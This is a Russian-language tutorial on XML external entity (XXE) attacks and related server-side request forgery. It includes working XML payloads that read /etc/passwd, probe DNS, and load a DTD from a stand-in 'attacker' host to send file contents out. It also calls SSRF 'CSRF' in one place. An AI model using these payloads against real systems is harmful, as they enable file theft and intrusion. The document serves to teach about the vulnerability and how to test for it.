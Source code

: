 #### Поиск отраженного файла

Рассмотрим следующий пример кода XXE:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
 <!ELEMENT includeme ANY>
 <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<root>&xxe;</root>
```

**Предыдущий XML-файл определяет объект с именем `xxe`, который на самом деле является содержимым файла `/etc/passwd`, который будет расширен в теге `includeme`. Если синтаксический анализатор допускает ссылки на внешние объекты, он может включить содержимое этого файла в XML-ответ или в вывод ошибки.**

#### Подделка запроса на стороне сервера (SSRF)

**Подделка запросов на стороне сервера (CSRF) происходит, когда сервер получает вредоносную XML-схему, которая заставляет сервер извлекать удаленные ресурсы, такие как файл, через HTTP/HTTPS/FTP и т.д.** SRF используется для извлечения удаленных файлов, чтобы подтвердить исполняемый файл, когда вы не можете вернуть файл обратно или выполнять сканирование портов, или проводить атаки методом перебора во внутренних сетях.

##### Разрешение внешнего DNS

**Иногда удается заставить приложение выполнить поиск DNS-данных по произвольным доменным именам на стороне сервера.** Это одна из простейших форм SSRF, но требует от злоумышленника анализа DNS-трафика. В Burp есть плагин, который проверяет наличие этой атаки.

```xml
<!DOCTYPE m PUBLIC "-//B/A/EN" "http://checkforthisspecificdomain.example.com">
```

##### Внешнее подключение

Всякий раз, когда возникает ошибка XXE и вы не можете получить файл, вы можете проверить, сможете ли вы установить удаленные подключения:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
 <!ENTITY % xxe SYSTEM "http://attacker/evil.dtd">
 %xxe;
]>
```

##### Извлечение файлов с помощью объектов-параметров

Параметр entities позволяет извлекать содержимое с помощью URL-ссылок. Рассмотрим следующий вредоносный XML-документ:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">
 %dtd;
]>
<root>&send;</root>
```
